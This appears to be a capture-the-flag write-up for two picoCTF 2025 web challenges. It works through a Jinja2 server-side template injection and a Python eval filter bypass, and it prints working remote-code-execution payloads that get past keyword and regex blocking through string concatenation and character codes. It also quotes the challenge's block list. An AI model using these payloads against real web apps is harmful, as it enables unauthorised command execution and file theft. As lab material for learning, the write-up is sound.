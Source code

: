 ```yaml
---
title: picoCTF-2025 - SSTI1 and 3v@l
author: Bonface
date: 2025-03-12 00:00:00 +0000
categories:
  - CTF Competitions
tags:
  - Web
  - ssti
  - command injections
image:
  path: /assets/img/CTF_Competitions/PicoCTF2025/pico.png
  alt: PicoCTF2025
---
```


# SSTI1 - web

## Challenge Overview

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website .

---

![image](https://gist.github.com/user-attachments/assets/3e2d983a-9356-424f-b192-6bd60c254be2)

**Hint**

- Server Side Template Injection

## Enumeration

Lets visit the site.  
![image](https://gist.github.com/user-attachments/assets/7c3cbfc1-5b40-4fd9-86a8-caf105e59bca)

We try `test` as an input to see the output while monitoring the requests using burp suite.  
![image](https://gist.github.com/user-attachments/assets/d7bb534b-ea63-46fe-9216-7b9cce757ca0)

The input is reflected back to us on the `announcement` page.

## Exploitation

From the hint we know that we have to exploit a `server side template injection`.  
Did some reading and found [this](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=ssti#python) perfect for getting to understand the vulnerability and example exploits.

To test for ssti we use `{{7*7}}` , if it prints `49` then that confirms we have `ssti`.  
To identify the language we can use `{{7*'7'}}` if we get `7777777` then it confirms that we have python and we can use a python payload.    
![image](https://gist.github.com/user-attachments/assets/d004a8a4-6c49-4d4f-8c43-efa6c3bcb563)

Now that we have python let’s grab our payload.

```
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```

This will list the files in the current directory.  
![image](https://gist.github.com/user-attachments/assets/c210909d-9558-4237-9ff8-123d49d9e128)

For this we are interested with the `flag` .  
![image](https://gist.github.com/user-attachments/assets/83f042bc-1e84-4aea-9afc-ae1b577b810e)

# 3v@l - web

## Challenge Overview

ABC Bank’s website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank’s calculator and read the flag?

Additional details will be available after launching your challenge instance.

---

![image](https://gist.github.com/user-attachments/assets/4b7f8bca-830f-4a89-8cee-8fd2e10d3d90)

We follow the link to get this page.  
![image](https://gist.github.com/user-attachments/assets/2c4b5d84-a055-4c78-80e5-4a8a9915973d)

The program just performs basic mathematical calculations.  
Here is what we get from the source code:

```
<!DOCTYPE html>
<html lang="en">
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Welcome to ABC bank </title>
    <link rel="stylesheet" href="/static/bootstrap.min.css">
    <link rel="stylesheet" href="/static/styles.css">
</head>
<body>
    <div class="container">
        <h1 class="mb-4 text-center">Bank-Loan Calculator</h1>
        <form method="post" action="/execute">
            <div class="form-group">
                <label for="code">Enter the formula:</label>
                <textarea id="code" name="code" class="form-control" rows="10" cols="50" placeholder="example: PRT*RATE*TIME(10000*23*12)" required></textarea>
            </div>
            <button type="submit" class="btn btn-primary">Execute</button>
        </form>
        <div class="footer-link mt-4">
            <a href="/">Go back</a>
        </div>
    </div>
</body>
</html>
```

With that let’s understand the challenge:  
The server:

- Restrict dangerous keywords like os, exec, eval, socket, bind, etc.
- Prevent command injections and file access (ls, cat, shell).
- Regex Filtering, Blocking hexadecimal, Unicode, URL encoding, and directory traversal patterns.

Now that we know the flag is stored in `/flag.txt`, we need to bypass the security restrictions in the Flask app and extract the file contents.  
Here i tried a bunch of tricks but here is the one that worked.

If this succeeds, it might reveal an `os` or `popen` class, which we can use to run commands.

Lets understand the Payload i used:  
The payload:

```
__import__('o'+'s').popen(''.join(chr(x) for x in [99, 97, 116, 32, 47, 102, 108, 97, 103, 46, 116, 120, 116])).read()
```

This successfully bypassed security filters and executed `cat /flag.txt`.  
Let’s break it down step by step.

1️⃣ Bypassing import os Restriction

```
__import__('o'+'s')
```

- `__import__('os')` dynamically imports the os module.
- Instead of “os”, we used ‘o’ + ‘s’ to evade static keyword detection.

2️⃣ Constructing the Command Without Using “cat” Directly

```
''.join(chr(x) for x in [99, 97, 116, 32, 47, 102, 108, 97, 103, 46, 116, 120, 116])
```

- This dynamically reconstructs the string “cat /flag.txt” using ASCII values:

```
Char	ASCII Code
c    	99
a    	97
t    	116
(space)	32
/    	47
f    	102
l    	108
a    	97
g    	103
.    	46
t    	116
x    	120
t    	116
```

- Instead of writing `cat /flag.txt` directly (which might get detected), we generate it dynamically using chr().

3️⃣ Executing the Command

```
__import__('o'+'s').popen(COMMAND).read()
```

- popen(COMMAND).read() executes the command in a subprocess shell and reads the output.
- Since we bypassed “cat” detection, the system executed cat /flag.txt successfully.

![image](https://gist.github.com/user-attachments/assets/57ca3bbb-9cf3-4947-857f-b673fbb11630)